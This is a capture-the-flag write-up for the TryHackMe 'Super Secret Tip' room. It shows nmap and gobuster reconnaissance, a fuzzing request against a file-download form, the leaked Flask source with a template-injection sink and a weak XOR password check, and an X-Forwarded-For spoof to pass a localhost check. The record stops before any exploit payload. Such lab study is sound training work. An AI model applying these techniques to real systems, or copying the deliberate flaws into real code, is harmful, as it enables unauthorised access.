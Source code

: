 <code>

https://tryhackme.com/room/supersecrettip


```nmap  -sV -A -Pn 10.10.150.162   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-27 12:40 CEST
Nmap scan report for 10.10.150.162
Host is up (0.038s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 3e:b8:18:ef:45:a8:df:59:bf:11:49:4b:1d:b6:b8:93 (RSA)
|   256 0b:cf:f9:94:06:85:97:f6:bd:cc:33:66:4e:26:ea:27 (ECDSA)
|_  256 60:ce:be:2d:1e:f0:18:00:30:70:ff:a2:66:d7:85:f7 (ED25519)
7777/tcp open  cbt?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
```




```                                                                                                                                                                                                                                          
┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.150.162:7777 -x .php, .txt, .html 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.150.162:7777
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/cloud                (Status: 200) [Size: 2991]
/debug                (Status: 200) [Size: 1957]
```

                                                                                                                               
┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.67.247:7777/cloud -x .php, .txt
nothing

## FFUZ

```
POST http://10.10.247.188:7777/cloud HTTP/1.1
host: 10.10.247.188:7777
user-agent: Mozilla/5.0 (Windows NT 10.0; rv:125.0) Gecko/20100101 Firefox/125.0
pragma: no-cache
cache-control: no-cache
content-type: application/x-www-form-urlencoded
referer: http://10.10.247.188:7777/cloud
content-length: 21

download=FFUZ
```


**Get Source.py file**

```
from flask import *
import hashlib
import os
import ip # from .
import debugpassword # from .
import pwn

app = Flask(__name__)
app.secret_key = os.urandom(32)
password = str(open('supersecrettip.txt').readline().strip())

def illegal_chars_check(input):
    illegal = "'&;%"
    error = ""
    if any(char in illegal for char in input):
        error = "Illegal characters found!"
        return True, error
    else:
        return False, error

@app.route("/cloud", methods=["GET", "POST"]) 
def download():
    if request.method == "GET":
        return render_template('cloud.html')
    else:
        download = request.form['download']
        if download == 'source.py':
            return send_file('./source.py', as_attachment=True)
        if download[-4:] == '.txt':
            print('download: ' + download)
            return send_from_directory(app.root_path, download, as_attachment=True)
        else:
            return send_from_directory(app.root_path + "/cloud", download, as_attachment=True)
            # return render_template('cloud.html', msg="Network error occurred")

@app.route("/debug", methods=["GET"]) 
def debug():
    debug = request.args.get('debug')
    user_password = request.args.get('password')
    
    if not user_password or not debug:
        return render_template("debug.html")
    result, error = illegal_chars_check(debug)
    if result is True:
        return render_template("debug.html", error=error)

    # I am not very eXperienced with encryptiOns, so heRe you go!
    encrypted_pass = str(debugpassword.get_encrypted(user_password))
    if encrypted_pass != password:
        return render_template("debug.html", error="Wrong password.")
    
    
    session['debug'] = debug
    session['password'] = encrypted_pass
        
    return render_template("debug.html", result="Debug statement executed.")

@app.route("/debugresult", methods=["GET"]) 
def debugResult():
    if not ip.checkIP(request):
        return abort(401, "Everything made in home, we don't like intruders.")
    
    if not session:
        return render_template("debugresult.html")
    
    debug = session.get('debug')
    result, error = illegal_chars_check(debug)
    if result is True:
        return render_template("debugresult.html", error=error)
    user_password = session.get('password')
    
    if not debug and not user_password:
        return render_template("debugresult.html")
        
    # return render_template("debugresult.html", debug=debug, success=True)
    
    # TESTING -- DON'T FORGET TO REMOVE FOR SECURITY REASONS
    template = open('./templates/debugresult.html').read()
    return render_template_string(template.replace('DEBUG_HERE', debug), success=True, error="")

@app.route("/", methods=["GET"])
def index():
    return render_template('index.html')

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=7777, debug=False)
```

**Main from source.py**

There is a file called ‘**supersecrettip.txt**’ in the same directory that we can download it.
This file import two other non-standard python file called **ip.py(using in /debugresult) and debugpassword.py** .
When using debugger, the “‘&;%” is the illegal character.
In the /cloud directory, there is only two kind of file can be downloaded, the first one is called “source.py”, another one is the file with “.txt” extension.
There is another directory called **/debugresult** . It seems use to get the feedback of the /debug page.

```
┌──(kali㉿kali)-[~/Documents/THM/THM_SuperSecretTip]
└─$ ls
debugpassword.py  ip.py  source.py  supersecrettip.txt
                                                                                                                               
┌──(kali㉿kali)-[~/Documents/THM/THM_SuperSecretTip]
└─$ cat debugpassword.py 
import pwn

def get_encrypted(passwd):
    return pwn.xor(bytes(passwd, 'utf-8'), b'ayham')
                                                                                                                               
┌──(kali㉿kali)-[~/Documents/THM/THM_SuperSecretTip]
└─$ cat ip.py           
host_ip = "127.0.0.1"
def checkIP(req):
    try:
        return req.headers.getlist("X-Forwarded-For")[0] == host_ip
    except:
        return req.remote_addr == host_ip
                                                                                                                               
┌──(kali㉿kali)-[~/Documents/THM/THM_SuperSecretTip]
└─$ cat supersecrettip.txt 
b' \x00\x00\x00\x00%\x1c\r\x03\x18\x06\x1e'


┌──(kali㉿kali)-[~/Documents/THM/THM_SuperSecretTip]
└─$ python3                                                
Python 3.11.9 (main, Apr 10 2024, 13:16:36) [GCC 13.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> b' \x00\x00\x00\x00%\x1c\r\x03\x18\x06\x1e'.hex()
'2000000000251c0d0318061e'
```

Set manualy X-Forwarded-For: 127.0.0.1 to reguest
